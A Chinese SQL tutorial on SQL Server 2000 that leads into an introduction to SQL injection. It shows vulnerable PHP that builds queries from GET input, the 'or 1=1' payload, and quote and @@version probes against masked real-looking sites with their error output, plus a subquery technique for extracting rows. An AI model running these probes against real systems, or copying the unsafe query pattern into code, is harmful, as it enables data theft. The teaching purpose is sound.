一条 SQL 语句都由一个关键字开始，表示这条 SQL 语句产生的动作，后面接一个或者多个子查询语句，指定这条语句操作的数据。这就是 SQL 语句的基本结构。

### 2 Microsoft SQL Server 2000

SQL Server 2000 是 Microsoft 公司推出的关系型数据库管理系统。在 SQL Server 2000 中对标准的 SQL 语言进行了扩展，称为 Transact-SQL 语言。由于我们平时经常会遇到 SQL Server，SQL Server 支持标准的 SQL，本章中我们将在 SQL Server 2000 的环境中来学习标准的 SQL。

#### 2.1 安装 SQL Server 2000

- 1）运行安装程序下面的“autorun.exe”，出现启动安装界面，如图 1 所示。  
- 2）选择安装 SQL Server 2000 组件，如图 2 所示。  
- 3）选择安装数据库服务器，进入安装欢迎界面，单击下一步，如图 3 所示。  
- 4）选中本地计算机，单击下一步，如图 4 所示。  
- 5）选中创建新的 SQL Server 实例，或安装“客户端工具”选项，单击下一步，如图 5 所示。  
- 6）输入姓名、公司名，单击下一步，如图 6 所示。  
- 7）单击“是”按钮，如图 7 所示。  
- 8）选中“服务器和客户端工具”选项，单击下一步，如图 8 所示。  
- 9）选择典型安装，如图 9 所示。  
- 10）选择使用“对每个服务使用同一账户，自动启动 SQL Server 服务。”和“使用本地系统账户”两项，单击下一步，如图 10 所示。  
- 11）选择“混合模式”身份验证模式，输入密码，单击下一步，如图 11 所示。  
- 12）安装程序开始安装拷贝文件，请等待，如图 12 所示。  
- 13）单击完成按钮，重新启动计算机，即完成了 SQL Server 2000 的安装，如图 13 所示。  


#### 2.2 SQL Server 查询分析器

SQL 查询分析器是一款连接 SQL Server 数据库的客户端工具。通过查询分析器连接到数据库，我们可以执行 SQL 语句并在结果窗口中查看返回的结果。

开始 ---> 所有程序 ---> SQL Server 2000 ---> 查询分析器，出现数据库登录验证界面，如图 14 所示。

输入 SQL SERVER 服务器 IP、用户名、密码，连接到 SQL SERVER 服务器，打开查询分析器主窗口，如图 15 所示。

在 SQL 查询窗口中输入 SQL 语句 `select * from sysusers`，按“F5”运行，如图 16 所示。


### 3 结构化查询语言

#### 3.1 表的基础知识

数据库通常包含多个表。数据库实际上是表的集合，数据库的数据或者信息都是存储在表中。每个表会有一个名字，称为表名。下面的例子是一个名为 users 的表。

| id | username | password | email |
|---|---|---|---|
| 62 | 园× | 13XX7076022 | hjXXX@163.com |
| 12 | 张×兵 | 83XX07 | xuqingXXXX72@163.com |
| 18 | 张×柱 | 85XX27 | jabaXXX@163.com |
| 50 | 张× | 60XX81120 | 843XXXX54@qq.com |

上面的表包含四条记录，每行是一条记录，每条记录对应一个人的信息。上面的表包含四列信息，id、username、password、email 为每列的列名，列也称为字段。

#### 3.2 创建、删除和修改表

##### 3.2.1 表的创建

CREATE TABLE 用于在数据库中创建表，在其后指明要创建的数据表的名称，然后在后面定义表的各列名称和列的数据类型。

```sql
CREATE TABLE table_name
(
  column_name1 data_type,
  column_name2 data_type
)
```

同一个表中，不能有相同的列名。在定义了列名之后，必须要指定列的数据类型。

###### 实例 1

创建一个 members 表，包含 4 个列，分别为：会员号（ID，数据类型 int）、昵称（username，数据类型 CHAR）、密码（password，数据类型 CHAR）、注册日期（REGISTER_DATE，数据类型 DATETIME）。

在查询分析器里执行下面代码：

```sql
CREATE TABLE members
(
ID int,
USERNAME CHAR(20),
PASSWORD CHAR(32),
REGISTER_DATE DATETIME
)
```


图 17 代码执行成功

执行结果如图 17 所示。创建表的时候，必须要保证该表在数据库中不存在，否则会提示创建失败。如果需要创建已经存在的数据表，需要把原来的表先删除掉。

Members 表创建完后类似这样：

| ID | USERNAME | PASSWORD | REGISTER_DATE |
|---|---|---|---|

我们创建表的时候可以为列指定默认的缺省值。这样在向表中添加数据的时候，如果没有明确指定某列的值，会在数据表中自动添加缺省值作为这列的值。指定缺省值通过 DEFAULT 关键字来实现。缺省值的数据类型必须和该列的数据类型一致。

###### 实例 2

创建 members 表，包含会员号（ID，数据类型 int）、昵称（username，数据类型 CHAR）、密码（password，数据类型 CHAR）、性别（sex，数据类型 CHAR）、注册日期（REGISTER_DATE，数据类型 DATETIME），同时为性别（sex，数据类型 CHAR）指定缺省值“男”。

在查询分析器里执行下面代码：

```sql
CREATE TABLE members
(
ID int,
USERNAME CHAR(20),
PASSWORD CHAR(32),
SEX CHAR(2) NOT NULL DEFAULT '男',
REGISTER_DATE DATETIME
)
```


图 18 代码执行成功

执行结果如图 18 所示。如果向 members 中添加数据时没有指定 SEX 列的值，数据库会为其自动添加缺省值“男”。

在上面的 members 表的 SEX 列中，NOT NULL 关键字指定非空约束，如果在添加数据时列的值没有指定，数据库则会报错。

##### 3.2.2 表的修改

通过 ALTER TABLE 命令来向数据表中添加新列、删除或修改已经创建的列。这里我们只介绍如何向数据表中添加新列。给数据表增加新列是在数据库操作中经常用到的，当一个数据表被建立后，在后继的使用中往往需要向里面增加新的列。

```sql
ALTER TABLE table_name
ADD column_name data_type
```

table_name 指的是要修改的数据表名字，ADD 关键字后面是要增加的列名。

###### 实例 3

我们需要向 members 表中添加一个 Email 列，设置 NOT NULL 约束和缺省值 default@163.com。在查询分析器里执行下面代码：

```sql
ALTER TABLE members
ADD EMAIL CHAR(100) NOT NULL DEFAULT 'default@163.com'
```


执行结果如图 19 所示。Members 原始表类似这样：

| ID | USERNAME | PASSWORD | REGISTER_DATE |
|---|---|---|---|

修改后的 Members 表类似这样：

| ID | USERNAME | PASSWORD | REGISTER_DATE | EMAIL |
|---|---|---|---|---|

##### 3.2.3 表的删除

使用 DROP TABLE 关键字删除数据表。

```sql
DROP TABLE table_name
```

只要在 DROP TABLE 关键字后面指定要删除的数据表名就可以删除了。执行 DROP TABLE 后不仅删除了数据表中的数据，同时也删除了数据表的结构，表就不存在了。

###### 实例 4

```sql
DROP TABLE members
```

执行这条语句后，members 就会从数据库中删除。

##### 3.2.4 创建、删除数据库

创建数据库语句：

```sql
CREATE DATABASE database_name
```

CREATE DATABASE 语句创建数据库，创建成功后我们可以通过 CREATE TABLE 在创建的数据库中添加表。

删除数据库语句：

```sql
DROP DATABASE database_name
```

DROP DATABASE 删除数据库，后面是被删除数据库的名字。如果数据库正在被使用，将无法成功删除数据库。

## 3.3 简单地查询

本节的实例 members 数据表，包含 ID、USERNAME、PASSWORD、REGISTER_DATE 四列内容。

members 数据表：

| ID | USERNAME | PASSWORD | REGISTER_DATE |
|---|---|---|---|
| 1 | pois0n | 17c56415e1c01e42e0fa911b7d462005 | 2009-2-14 |
| 2 | xiaosang | 4ffd184d5c033311ce2caee763f16963 | 2009-7-7 |
| 3 | hacker | d6a6bc0db10694a2d90e3a69648f3a03 | 2009-8-1 |
| 4 | xiaobai | 9fd00aba1fd30c80c943b1b25065b72d | 2009-8-2 |

我们可以通过在查询分析器里执行下面的语句创建一个包含数据的 members 数据表。表的创建及添加数据的 SQL 代码如下：

```sql
CREATE TABLE members
(
  ID int,
  USERNAME CHAR(20),
  PASSWORD CHAR(32),
  REGISTER_DATE DATETIME
)

INSERT INTO members VALUES(1,'pois0n','17c56415e1c01e42e0fa911b7d462005','2009-02-14');
INSERT INTO members VALUES(2,'xiaosang','4ffd184d5c033311ce2caee763f16963','2009-07-07');
INSERT INTO members VALUES(3,'hacker','d6a6bc0db10694a2d90e3a69648f3a03','2009-08-01');
INSERT INTO members VALUES(4,'xiaobai','9fd00aba1fd30c80c943b1b25065b72d','2009-08-02');
```

##### 3.3.1 查询语句的基本结构

查询（SELECT）语句是 SQL 的核心，是 SQL 语句中使用最频繁的语句。在 SQL 语句中，对数据库的读取操作就是用 SELECT 查询语句。

```sql
SELECT [DISTINCT|ALL] select_list
FROM table_name
[WHERE search_condition]
[GROUP BY group_by_expression]
[HAVING search_condition]
[ORDER BY order_by_expression [ASC|DESC]]
```

select_list 是需要查询的列名（字段）清单，多个列名中间用逗号隔开。DISTINCT 关键字删除查询结果中相同的行。ALL 关键字返回查询结果中所有的行，包括相同的行。FROM 子句包括一个 FROM 关键字和一个或多个数据表（也可以是一个子查询返回的结果集）。

WHERE 子句中列出搜索的条件，选择出需要显示的行。GROUP BY 子句用于分组查询结果，根据 group_by_expression 中的列名进行数据分组。

HAVING 子句根据 search_condition 选择查询的结果。ORDER BY 子句根据 order_by_expression 指定的列对结果进行排序，ASC 升序排列，DESC 降序排列。

##### 3.3.2 列的查询

查询某一列的信息：

```sql
SELECT column FROM table_name
```

SELECT 关键字指定了要查询的列名，FROM 关键字指定了要查询数据的表名。

### 实例5

查询 members 表中的用户名：

```sql
SELECT username FROM members
```


图20 查询结果

查询结果如图20所示。从执行结果可以看出，SELECT 语句返回了 username 一列的所有数据。

同时查询几列的信息：

```sql
SELECT column1, column2, column3 FROM table_name
```

多个列名之间用逗号隔开，在列出的最后一个列名后面不要加逗号。

### 实例6

查询 members 表中的 id、username、password 列的数据：

```sql
SELECT id, username, password FROM members
```

查询结果如图21所示。

查询所有列的信息：

```sql
SELECT * FROM table_name
```

使用 * 通配符，可以列出数据表中所有列的数据，不必列出所有列的名字。

### 实例7

查询 members 表中所有列的数据：

```sql
SELECT * FROM members
```


图21 查询结果


图22 查询结果

查询结果如图22所示。

##### 3.3.3 排序查询结果

ORDER BY 对查询返回的结果按指定的列进行排序。ORDER BY 关键字一定要放在 SQL 语句的最后面。

###### 单列排序

单列排序就是对查询返回的结果按照某一列的顺序进行排列显示。ORDER BY 后面指定一个列名。

```sql
SELECT column1,column2,column3,column4 FROM table_name ORDER BY column_n
```

### 实例8

查询 members 表中的 id、username、password 列的数据，按照 username 列进行排序显示：

```sql
SELECT id,username,password FROM members
ORDER BY username
```


图23 查询结果

查询结果如图23所示。

###### 采用序号进行排序

ORDER BY 除了可以根据列名进行排序外，还可以根据列的相对位置（序号）进行排序。

```sql
SELECT column1,column2,column3,column4 FROM table_name ORDER BY n
```

ORDER BY 后面的序号“n”，实际上就是 SELECT 后面列名的序号。如果 n=3，等价于：

```sql
SELECT column1,column2,column3,column4 FROM table_name ORDER BY 3
```

### 实例9

查询 members 表中的 id、username、password 列的数据，按照第 2 列进行排序显示，也就是按照 username 列进行排序显示：

```sql
SELECT id,username,password FROM members
ORDER BY 2
```


查询结果如图24所示。

###### 反向排序

ORDER BY 默认是按照升序进行的，如果想按照降序对结果进行排序，可以使用关键字“DESC”进行降序排列。

```sql
SELECT column1,column2,column3,column4 FROM table_name ORDER BY column_n DESC
```

### 实例10

查询 members 表中的 id、username、password 列的数据，按照 username 列进行降序排序显示，也就是按照第 2 列进行反向排序显示：

```sql
SELECT id,username,password FROM members
ORDER BY 2 DESC
```


查询结果如图25所示。

##### 3.3.4 使用 WHERE 关键字定义查询条件

WHERE 可以让我们有条件地选取需要的数据。SELECT 返回的结果按照 WHERE 后面定义的查询条件进行筛选，符合查询条件的结果作为最后结果的一条记录，不符合查询条件的从结果中除去。语法如下：

```sql
SELECT column1,column2,column3,column4 FROM table_name WHERE search_condition
```

查询 table_name 中的 column1、column2、column3、column4 列的内容，但并不是返回所有结果，只有符合 search_condition 条件的结果才会显示出来。

### 实例11

查询 members 表中用户名为“pois0n”的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members
WHERE username = 'pois0n'
```


查询结果如图26所示。

WHERE 子句中使用了“=”，这就要求等号左右两边的数据类型相同。username 列的数据类型为字符串型，后面的“pois0n”必须放在单引号里面，代表是一个字符串。如果 username 列是数字类型（INT），就不需要放在单引号里面。

常见的 WHERE 条件查询运算符如下：

| 运算符 | 说明 |
|---|---|
| = | 等于 |
| > | 大于 |
| < | 小于 |
| >= | 大于等于 |
| <= | 小于等于 |
| <> | 不等于 |
| != | 不等于 |

##### 3.3.5 使用 BETWEEN 关键字筛选范围

BETWEEN...AND... 选取介于两个值之间的数据，并且包含这两个值。这些值可以是数字、字符串、日期或其他数据库类型。如选择范围在 0～4 之间的数据，可以表示为 BETWEEN 0 AND 4。

### 实例12

查询 members 表中 id 在 2 到 4 之间的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members
WHERE id BETWEEN 2 AND 4
```


返回的结果包括 id=2、3、4 的记录，如图27所示。

## 3.4 复杂搜索条件的查询

这一节我们介绍 WHERE 子句中经常用到的几种较为复杂的查询条件，包括组合的查询条件、IN 运算符、NOT 运算符、LIKE 运算符等，这些在 SQL 注入当中是经常遇到也是十分重要的内容。

##### 3.4.1 组合查询条件

前一节的 WHERE 子句进行查询时，WHERE 子句后面的查询条件只有一个。我们可以通过运算符 AND 和 OR 将多个查询条件结合在一个 WHERE 子句中，形成一个复合的查询条件。

###### AND 运算符

在 WHERE 子句中，AND 运算符表示“与”的关系，即 AND 左右两个表达式，只有在两个表达式都为 True 时，整个 WHERE 子句查询条件为 True。

| 表达式一 | 表达式二 | 结果 |
|---|---|---|
| TRUE | TRUE | TRUE |
| TRUE | FALSE | FALSE |
| FALSE | FALSE | FALSE |

语法如下：

```sql
SELECT column1, column2, column3, column4 FROM table_name WHERE search_condition1 AND search_condition2
```

在 WHERE 子句中，通过 AND 运算符连接了两个查询条件 search_condition1 和 search_condition2，只有同时满足这两个条件的记录，这条记录才会被包含在结果中。

### 实例13

查询 members 表中 id 大于 2 并且用户名不等于“hacker”的 id、username、password 列的数据：

```sql
SELECT id, username, password FROM members WHERE id > 2 AND username != 'hacker'
```


图28 查询结果

查询结果如图28所示。也可以同时使用多个 AND 运算符连接多个查询条件。这时，只有满足所有查询条件的记录，才被包括在结果表中。

###### OR 运算符

OR 运算符表示“或”的关系。OR 在结合两个表达式时，只要其中一个条件为 True 时，整个 WHERE 子句查询条件便为 True。

| 表达式一 | 表达式二 | 结果 |
|---|---|---|
| TRUE | TRUE | TRUE |
| TRUE | FALSE | TRUE |
| FALSE | FALSE | FALSE |

语法如下：

```sql
SELECT column1, column2, column3, column4 FROM table_name WHERE search_condition1 OR search_condition2
```

在 WHERE 子句中，通过 OR 运算符连接了两个查询条件 search_condition1 和 search_condition2，只要其中一个查询条件为 True，记录就会被包括在结果中。

### 实例14

查询 members 表中 id 大于 3 或者 id 小于 2 的记录的 id、username、password 列的数据：

```sql
SELECT id, username, password FROM members WHERE id < 2 OR id > 3
```

查询结果如图29所示。

在 WHERE 子句中，通过 AND、OR 运算符可以同时连接多个条件。AND、OR 运算符也可以同时使用。当 AND、OR 运算符同时存在时，SQL 语言认为 AND 运算符的运算级别高于 OR 运算符。如：


```sql
search_condition1 OR search_condition2 AND search_condition3
(search_condition2 AND search_condition3)
```

##### 3.4.2 IN 运算符

```sql
SELECT column1, column2, column3, column4 FROM table_name
WHERE column_n IN (first value, ... , last value)
```

IN 运算符允许我们在 WHERE 子句中指定多个值，以括号()包括起来，条件中间用逗号分开。

### 实例15

查询 members 表中 username 为 pois0n、xiaobai、hacker 中任意一个记录的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members
WHERE username IN ('pois0n','xiaobai','hacker')
```

查询结果如图30所示。


##### 3.4.3 NOT 运算符

NOT 运算符用于对查询条件求反，经常与其他运算符联合使用。

### 实例16

查询 members 表中 username 不是 pois0n 的所有其他记录的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members WHERE NOT username='pois0n'
```

查询结果如图31所示。


##### 3.4.4 LIKE 运算符

使用 LIKE 运算符来模糊查询数据库。如我们知道一个表里面有个管理员用户，但是不确定这个管理员是 admin，还是 administrator 或是 admin888，这时我们可以使用 LIKE 运算符找出与其相关的字符串。这在研究搜索型参数的注入漏洞时是非常有用的。

在 SQL 语言中可以通过通配符来实现模糊查询功能。SQL 语言提供的通配符有“%”、“_”等。“%”表示任意字符的匹配，且不计字符数量的多少。“_”通配符的功能与“%”通配符基本相同，但是它只表示任意一个字符的匹配。

### 实例17

查询 members 表中所有以字符“x”开头的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members
WHERE username LIKE 'x%'
```


查询结果如图32所示。

### 实例18

查询 members 表中用户名包含“s”字符的所有记录的 id、username、password 列的数据：

```sql
SELECT id,username,password FROM members WHERE username LIKE '%s%'
```


查询结果如图33所示。

#### 3.5 聚合函数和分组查询

##### 3.5.1 聚合函数

聚合分析实际上就是对一组数据的统计分析，如求其最大值、最小值、平均值等。所有这些针对表中一列或者多列数据的分析就称为聚合分析。SQL 提供了许多聚合函数对表中数据进行统计分析。

常见聚合函数及其功能如下：

| 函数名称 | 函数功能 |
|---|---|
| SUM() | 返回选取结果集中所有值的总和 |
| MAX() | 返回选取结果集中所有值的最大值 |
| MIN() | 返回选取结果集中所有值的最小值 |
| AVG() | 返回选取结果集中所有值的平均值 |
| COUNT() | 返回选取结果集中行的数目 |

这里仅对我们注入中经常用到的 COUNT() 函数进行详细说明。COUNT() 函数用来计算表中记录的个数或者列中值的个数。使用 COUNT 函数时，必须指定一个列的名称或者使用星号（*），星号表示计算一个表中的所有记录。

COUNT(*) 计算表中记录的总数，即使表中行的数据为 NULL，也被计算在里面。COUNT(column_name) 计算 column_name 列包含内容的数目，如果该列中某行数据为 NULL，则不会被计算在里面。

###### 实例 19

查询 members 表中记录的数目：

```sql
SELECT COUNT(*) FROM members
```

查询结果如图 34 所示。


##### 3.5.2 分组查询

###### GROUP BY 子句

我们可以通过 GROUP BY 关键字对查询结果进行分组，将查询对象按一定条件分组，然后对每一个组进行处理分析。

我们建立一个 members_1 数据表，包含 ID、USERNAME、PASSWORD、REGISTER_DATE、SEX 五列信息。表的创建及添加数据的 SQL 代码如下：

```sql
CREATE TABLE members_1
(
  ID int,
  USERNAME CHAR(20),
  PASSWORD CHAR(32),
  SEX CHAR(4),
  REGISTER_DATE DATETIME
);
INSERT INTO members_1 VALUES(1,'poison','17c56415e1c01e42e0fa911b7d462005','男','2009-02-14');
INSERT INTO members_1 VALUES(2,'xiaosang','4ffd184d5c033311ce2caee763f16963','女','2009-07-07');
INSERT INTO members_1 VALUES(3,'hacker','d6a6bc0db10694a2d90e3a69648f3a03','男','2009-08-01');
INSERT INTO members_1 VALUES(4,'xiaobai','9fd00aba1fd30c80c943b1b25065b72d','女','2009-08-02');
```

###### 实例 20

查询 members_1 表中所有男会员和女会员的数量：

```sql
SELECT COUNT(*), SEX FROM members_1 GROUP BY SEX;
```


查询结果如图 35 所示。GROUP BY 子句依据性别进行分组，即具有相同值的行被划为一组并计算数量。

###### HAVING 子句

GROUP BY 子句分组只是简单地依据所选列的数据进行分组，将该列具有相同值的行划为一组。我们还可以通过 HAVING 子句删除那些不能满足条件的数据。语法如下：

```sql
SELECT column1, column2, column3 FROM table_name
GROUP BY column_n HAVING condition value;
```

HAVING 子句对 GROUP BY 子句产生结果进行筛选，如果不满足查询条件，就将其从结果中删除。

###### 实例 21

查询 members_1 表中所有女会员的数量：

```sql
SELECT COUNT(*), SEX FROM members_1 GROUP BY SEX HAVING SEX='女';
```


查询结果如图 36 所示。

##### 3.5.3 SELECT 查询小结

至此，SELECT 语句中的基本用法介绍完了。SELECT 查询语句及其基本子句如下：

| 序号 | 子句关键词 | 子句功能 |
|---|---|---|
| 1 | SELECT | 从指定表中取出指定的列的数据 |
| 2 | FROM | 指定要查询操作的表 |
| 3 | WHERE | 用来规定一种选择查询的标准 |
| 4 | GROUP BY | 对结果集进行分组，常与聚合函数一起使用 |
| 5 | HAVING | 对 GROUP BY 子句产生结果进行筛选 |
| 6 | ORDER BY | 指定排序条件 |

#### 3.6 UNION 查询

UNION 操作符用于合并两个或多个 SELECT 语句的结果。

##### 实例 22

利用 UNION 操作符进行查询：

```sql
SELECT id,username,password FROM members WHERE id > 2
UNION
SELECT id,username,password FROM members WHERE id < 4;
```

查询结果如图 37 所示。首先从 members 表中选出 id 大于 2 的用户名和密码，而后从 members 表中选出 id 小于 4 的用户名和密码，最后对两次选出的内容进行 UNION（并运算）得到最终结果。


UNION 运算符自动从结果中删除重复的记录行，如果需要保留结果中的重复记录行，需要使用 UNION ALL 关键词。

##### 实例 23

##### 利用 UNION ALL 操作符进行查询

```sql
SELECT id,username,password FROM members
WHERE id > 2
UNION ALL
SELECT id,username,password FROM members
WHERE id < 4;
```


图 38 查询结果

查询结果如图 38 所示。

上面介绍的 UNION 运算是来自于同一个表格的，不同表格之间也可以利用 UNION 关键字进行操作，但是要满足：

- 两个表必须选择相同数量的列。
- 相应的列必须有相同的数据类型或者数据类型必须兼容。

在注入中 UNION 查询是很方便的，不用一个字符接一个字符地去猜解，大大提高了效率。使用 UNION 查询可以让我们很容易得到所需要的敏感信息。

##### 实例 24

查询 members 表中 id 等于 2 和 members_1 表中 id 等于 3 的 id、username、password 字段的信息：

```sql
SELECT id,username,password FROM members
WHERE id = 2
UNION
SELECT id,username,password FROM members_1
WHERE id = 3;
```


图 39 查询结果

查询结果如图 39 所示。

#### 3.7 子查询

子查询的查询结果可以作为另一个查询的查询参数。

##### 返回单值的子查询

如果一个子查询的结果是一个单纯的数据，这个子查询就相当于一个常量，可以像使用普通常量一样来使用这个子查询。

###### 实例 25

```sql
SELECT id,username,password FROM members WHERE id = (
  SELECT id FROM members_1 WHERE username='pois0n'
);
```

这条语句我们可以理解为首先从 members_1 表中选出用户名为“pois0n”的用户 id 信息，然后查询 members 表中 id 等于 members_1 表中 id 的用户信息，如图 40 所示。


图 40 查询结果

##### 返回多值的子查询

###### 实例 26

```sql
SELECT id,username,password FROM members WHERE id IN (
  SELECT id FROM members_1
);
```

这条语句我们可以理解为首先从 members_1 表中选出用户 id 信息（1、2、3、4），然后查询 members 表中 id 等于（1、2、3、4）中的用户信息，如图 41 所示。

在 SQL 注入中，我们比较常用的子查询就是利用子查询逐行猜解数据库中的记录。如：


```sql
SELECT TOP 1 column_name
FROM (
  SELECT TOP N column_name FROM table_name ORDER BY column_name
) t
ORDER BY column_name DESC;
```

###### 实例 27

我们通过查询分析器同时执行如下代码：

```sql
SELECT TOP 1 username FROM (
  SELECT TOP 1 * FROM members ORDER BY username
) t ORDER BY username DESC;
```

查询 members 表中第一条记录的用户名，返回结果如图 42 所示。


```sql
SELECT TOP 1 username FROM (
  SELECT TOP 2 * FROM members ORDER BY username
) t ORDER BY username DESC;
```

查询 members 表中第二条记录的用户名。

#### 3.8 数据的插入

在 SQL 中，可以通过 INSERT…VALUES 向数据库中插入数据。一次可以插入一个整行的数据，也可以插入某几列的数据。语法如下：

```sql
INSERT INTO table_name(column1,column2,column3,...)
VALUES (value1,value2,value3,...);
```

##### 整行插入

通过 INSERT…VALUES 向数据库中插入数据，如果没有具体指定列名，则可以认为是整行数据的插入，语法如下：

```sql
INSERT INTO table_name VALUES (value1,value2,value3,...);
```

VALUES 中值的个数必须与表中的字段数相同，而且顺序必须与表中各字段的顺序相对应，插入的数据类型必须与相应字段的数据类型兼容。

###### 实例 28

向 members_1 表中插入一条新的整行的数据：

```sql
INSERT INTO members_1
VALUES(5,'heike','9fd00ba1fd30c80c943b1b25065b72d','男','2009-08-12');
SELECT * FROM members_1;
```


图 43 插入结果

插入结果如图 43 所示。

##### 特定字段数据的插入

通过 INSERT…VALUES 向数据库中插入数据，仅仅指定一些列名，语法如下：

```sql
INSERT INTO table_name(column1,column2,column3,...)
VALUES (value1,value2,value3,...);
```

###### 实例 29

向 members_1 表中插入一条新的数据：

```sql
INSERT INTO members_1(ID,USERNAME,SEX) VALUES(7,'test','男');
SELECT * FROM members_1;
```


图 44 插入结果

插入结果如图 44 所示。

#### 3.9 数据的修改

使用 UPDATE 语句来修改表中的现有数据。UPDATE 语句的基本语法：

```sql
UPDATE table_name
SET column1=value1, column2=value2, ...
WHERE search_condition;
```

UPDATE 语句实际上主要包括三部分：要更新的表名、列名和更新的值，以及确定更新记录行的查询条件。WHERE 子句确定表中哪些内容要修改。SET 子句提供要修改的列值。

注意一定不要忽略 WHERE 子句，如果没有指明 WHERE 子句，则数据库表中所有行的记录都将被更新。

##### 实例 30

更新 members_1 表中用户 pois0n 的性别信息数据：

```sql
UPDATE members_1 SET SEX='女' WHERE username='pois0n';
SELECT * FROM members_1;
```


图 45 更新结果

更新结果如图 45 所示。

#### 3.10 数据的删除

在 SQL 中，可以使用 DELETE 语句从数据表删除数据。DELETE 语句只能从表中删除数据，但不能删除表本身。

DELETE 语句基本语法：

```sql
DELETE FROM table_name WHERE search_condition;
```

该语句将从表中删除符合条件的数据行。注意，如果没有 WHERE 语句则删除所有数据行。

##### 实例 31

删除 members_1 表中用户 id 大于 5 的用户信息：

```sql
DELETE FROM members_1 WHERE id > 5;
SELECT * FROM members_1;
```


图 46 删除结果

删除结果如图 46 所示。


## SQL 注入基础

do1nack.me

## 第四章

## SQL 注入基础

### 1 SQL 注入漏洞原理

#### 1.1 什么是 SQL 注入漏洞

目前流行的 Web 攻击技术中，SQL 注入是最常用、也是重要的攻击技术之一。大家对 SQL 注入可能有所了解，当应用程序在向后台数据库提交 SQL 查询的时候，如果可以人为地去修改 SQL 查询语句，则会引发 SQL 注入（SQL INJECTION）。我们可以理解为，SQL 注入漏洞发生的前提是攻击者通过修改提交的参数就可以修改数据库查询语句。SQL 注入不只是一种会发生在 Web 应用中的漏洞，理论上说对于任何可以动态构造 SQL 查询语句的地方都可能引发 SQL 注入漏洞。

#### 1.2 SQL 注入漏洞原理

我们平时会遇到很多 Web 应用，网上购物、Email、浏览新闻等。在这些 Web 应用中一般都是和用户进行交互，从数据库中提取特定的信息。

我们在访问网站的时候，可以通过页面的参数提交数据，即 GET 方法和 POST 方法。比如 http://www.xxxx.com/userinfo.php?id=100，这里问号后面的“id=100”就是 GET 方法传入的内容，变量名为“id”，变量值为“100”。userinfo.php 的代码如下：

```php
<?php
//......
// 连接数据库
$conn = mysql_connect("localhost", "root", "123456");
// 构造 SQL 查询语句
$query = "select * from users where id = $_GET[id]";
// 执行查询
$result = mysql_query($query);
while($row = mysql_fetch_array($result, MYSQL_ASSOC))
{
    echo "Username：{$row['username']}<br>";
    echo "Password：{$row['password']}<br>";
    echo "Email：{$row['email']}<br>";
    echo "Mobile：{$row['mobile']}<br>";
}
// ...
?>
```

这里“$_GET[id]”代表的就是提交的内容“100”。如果访问 http://www.xxxx.com/userinfo.php?id=123456，那么“$_GET[id]”就是“123456”。

在上面的 PHP 代码中明确地说明了 PHP 中如何构造并执行 SQL 语句。其中 SQL 查询会返回 id=100 的这个用户的详细资料，然后通过 echo 在浏览器上显示出这些信息。执行的数据库查询为：

```sql
SELECT *
FROM users
WHERE id = 100;
```

下面我们尝试向提交的参数 id 中插入构造的 SQL 命令来改变程序中原来的 SQL 查询，例如我们提交“ or 1=1”。

```text
http://www.xxxx.com/userinfo.php?id=100 or 1=1
```

这时 PHP 脚本通过构造的 SQL 查询将返回所有用户的详细信息，因为我们通过提交的参数改变了 SQL 查询的逻辑验证，添加的 or 1=1 将永远返回 TRUE，从而满足条件的用户（所有用户）的信息将被查询出来并返回给用户浏览器显示。

```sql
SELECT *
FROM users
WHERE id = 100 OR 1=1;
```

我们可以把上面的内容总结一下，上面的例子说明了攻击者如何操作 SQL 查询改变其逻辑。重新被构造的 SQL 语句没有经过验证被放到数据库里面执行，这就是最主要的注入漏洞的成因。在现实中，注入的原因有很多，如：动态构造 SQL 查询、字符转义不正确、使用错误的数据类型、多次提交、数据库漏洞等。

### 2 检测注入漏洞

检测 SQL 注入漏洞有一条简单的原则——识别 Web 应用程序中的用户输入参数，提交意外数据看能否触发程序异常。但是由于应用程序的多样性，并不存在标准的规则来确定某个 URL 是否存在 SQL 注入漏洞。

Web 应用程序接受用户输入参数的方式有 GET 方式、POST 方式、COOKIE 方式、其他 HTTP 请求（Host 头域、Referer 头域、User-Agent 头域等）。

程序异常可以通过数据库错误信息和应用程序响应返回的结果来判断。首先我们设置 IE，菜单——>工具——>Internet 选项——>高级——>去掉“显示友好 HTTP 错误信息”前面的勾，否则无论服务器返回什么错误，IE 都只显示为 HTTP 500 服务器错误，不能获得更多的提示信息。

#### 2.1 数据库错误

数据库返回错误信息不同，Web 应用处理方式也不同。在检测 SQL 注入漏洞时，如果应用程序可以返回完整详细的 SQL 错误信息，对漏洞的检测十分有用。

后台数据库为 SQL SERVER 时，我们提交如下请求：

```
http://stuic.xxx.cn/News.aspx?id=861'
```

Web 应用会返回类似如下信息：

```
Server Error in '/' Application.
字符串 '' 之前有未闭合的引号。
Description: An unhandled exception occurred during the execution of the current web request. Please review
the stack trace for more information about the error and where it originated in the code.
Exception Details: System.Data.SqlClient.SqlException: 字符串 '' 之前有未闭合的引号。
```

提交如下请求：

```
http://stuic.xxx.cn/News.aspx?id=861 and @@version>0
```

Web 应用会返回类似如下信息：

```
Server Error in '/' Application.
将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.2039 (Intel X86)
May 3 2005 23:18:38 Copyright (c) 1988-2003 Microsoft Corporation Enterprise Edition on Windows NT
5.2 (Build 3790: Service Pack 2)' 转换为数据类型为 int 的列时发生语法错误。
```

后台数据库为 MySQL 时，我们提交如下请求：

```
http://news.xxx.cn/info.php?id=656'
```

Web 应用会返回类似如下信息：

```
Warning: mysql_free_result(): supplied argument is not a valid MySQL result resource in E:\web\news09\class\dbsql.inc.php on line 59
SELECT * FROM gwi_rel_key AS i, gwi_keyword AS a WHERE i.kid = a.kid AND i.id =656\'
```

后台数据库为 Oracle 时，我们提交如下请求：

```
http://xds.xxx.com.cn/danwei/print/P_examsign2.asp?id=7681%27
```

Web 应用会返回类似如下信息：

```
Oracle Automation 错误 '800a01b8'
Error in Preparing SQL statement, ORA-01756: 括号内的字符串没有正确结束
/danwei/print/P_examsign2.asp, 行 7
```

如果我们在测试过程中看到类似上面这些错误提示，那基本可以断定是存在注入漏洞。

#### 2.2 Web 应用程序响应

由于不同应用程序的处理方式不同，所以有时 SQL 注入并不能显示出数据库错误信息，这时我们可以通过 Web 应用程序响应结果的异同来进行检测。

我们把 URL 改为 `http://www.xxxx.com/userinfo.php?id=100 and 1=1`，此时的 id 的值为“100 and 1=1”，执行的 SQL 查询实际是：

```sql
select *
from users
where id =100 and 1=1
```

